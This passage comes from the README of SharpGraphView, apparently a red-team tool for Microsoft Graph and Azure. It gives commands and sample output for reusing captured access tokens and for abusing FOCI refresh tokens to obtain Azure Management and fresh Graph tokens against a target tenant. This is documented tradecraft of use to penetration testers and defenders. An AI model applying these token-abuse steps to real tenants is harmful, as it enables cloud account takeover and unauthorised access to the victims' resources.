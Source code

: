 ![getgraphtokens-edit-crop](https://github.com/mlcsec/SharpGraphView/assets/47215311/65de3da1-f40a-46c2-959c-f99885fd80cc)


The Microsoft Graph API access token can then be copied to a local file or directly parsed to the `-token` parameter:

```powershell
PS > .\SharpGraphView.exe get-usergroupmembership -token .\token.txt

[*] Get-UserGroupMembership
value: [
  {
    "@odata.type": "#microsoft.graph.directoryRole",
    "id": "5a48ab0f-c546-441f-832a-8ab48348e372",
    "deletedDateTime": null,
    "description": "Can read everything that a Global Administrator can, but not update anything.",
    "displayName": "Global Reader",
    "roleTemplateId": "f2ef992c-3afb-46b9-b7cf-a126ee74c451"
  }
]
```

## Invoke-RefreshToAzureManagementToken

FOCI can be abused to obtain a valid Azure Management token using the refresh token obtained from `Get-GraphTokens`. Use `Get-TenantID -domain <target.domain>` to get the tenant ID of the target domain. 

![invokemsgraphrefresh-edit-crop](https://github.com/mlcsec/SharpGraphView/assets/47215311/46ca692d-d48c-4262-9f47-6ae0b6f004f0)


The Azure Management token can then be used with `Connect-AzAccount` to access Azure resources via the Azure Management (Az) PowerShell module:
```powershell
PS > $aztoken = "eyJ0eXAiOiJKV1QiLCJ..."

PS > Connect-AzAccount -AccessToken $aztoken -AccountId JohnDoe@TargetCorp1.onmicrosoft.com

Account                                      SubscriptionName       TenantId                             Environment
-------                                      ----------------       --------                             -----------
JohnDoe@TargetCorp1.onmicrosoft.com          TargetCorp1            fbf34b9d-6375-4137-ae1f-8cb12df29bb5 AzureCloud
```

## Invoke-RefreshToMSGraphToken

FOCI can be abused again to obtain a new Microsoft Graph token if the original token has expired:

```powershell
PS > .\SharpGraphView.exe Invoke-RefreshTokenToMSGraphToken -token .\refreshtoken.txt -tenant <tenant id>
```
